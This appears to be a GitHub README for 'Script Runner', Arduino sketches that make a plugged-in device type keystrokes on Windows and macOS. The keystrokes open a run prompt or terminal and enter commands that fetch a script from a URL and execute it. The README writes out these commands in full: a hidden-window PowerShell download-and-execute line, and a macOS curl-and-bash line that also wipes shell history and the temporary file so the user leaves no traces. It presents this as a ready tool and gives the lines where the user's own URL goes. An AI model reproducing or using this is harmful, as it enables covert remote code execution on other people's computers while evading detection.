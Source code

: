 # Script Runner
<br>

**script_runner_win.ino:** Once plugged in, it hits win+r which opens the run menu. Then it types out `powershell -w h iex (irm "[url]")`. Here, `-w h` makes it so the process is ran in a hidden window, `irm "[url]"` sends a request to the url and gets the raw text which is then executed by `iex`. Put the url to your script at line 19

<br>

**script_runner_mac.ino:** Once plugged in, it hits cmd+space which opens spotlight. Then it types `Terminal.app` and hits enter to open up the terminal application. Then it types out `"$( curl "[url]" > $TMPDIR/16691615; bash $TMPDIR/16691615; history -c; rm ~/.bash_history;rm $TMPDIR/16691615 )" & disown;`, and then it quits the terminal by hitting command+q and then enter (it hits enter because of the "Do you want to terminate the processes in this window" prompt). Here, `curl "[url]" > $TMPDIR/16691615` saved the script to a file, `bash $TMPDIR/16691615` executed the file, `history -c`, `rm ~/.bash_history`, `rm $TMPDIR/16691615` clear our traces, and `& disown` ensures that these processes keep running even if the terminal is exited. Put the url to your script at line 26
